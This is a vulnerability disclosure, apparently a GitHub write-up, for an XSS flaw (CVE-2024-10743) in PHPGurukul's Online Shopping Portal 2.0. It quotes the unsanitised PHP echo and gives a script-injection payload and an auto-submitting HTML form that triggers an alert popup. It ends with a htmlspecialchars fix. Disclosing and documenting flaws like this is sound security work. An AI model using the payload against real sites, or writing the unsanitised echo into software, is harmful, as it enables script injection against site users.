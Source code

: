 # CVE-2024-10743 - [XSS vulnerability] found in Online Shopping Portal 2.0 - (editable_ajax.php)


Affected Project: **Online Shopping Portal**

Exploit Author: Dimitris Chatzidimitris

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: /admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php

Injection parameter: `value`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `value` parameter because in the code it is  directly echoing the user-supplied input `($_POST['value'])` without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo $_POST['value'].' (server updated)';
```

<br />

## Injection Payload Tested:

We set `value` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `Online Shopping Portal` looks like:

<br />

![Portal](https://i.postimg.cc/zf1f8fgt/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Test XSS Injection</title>
</head>
<body>
    <form action="http://localhost/shopping/admin/assets/plugins/DataTables/examples/examples_support/editable_ajax.php" method="POST" id="xssForm">
        <input type="hidden" name="value" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Submit">
    </form>

    <script>
        // Automatically submit the form when the page loads
        document.getElementById('xssForm').submit();
    </script>
</body>
</html>
```

Then we have to open the file `test_form.html` in the browser:

For example url in the browser:
`file:///home/username/Desktop/test_form.html`

<br />

After submitting the payload using the file `test_form.html` the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/wBGg3TyY/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo htmlspecialchars($_POST['value'], ENT_QUOTES, 'UTF-8') . ' (server updated)';
```

<br />

> One Click Can Change Everything: Be Secure.
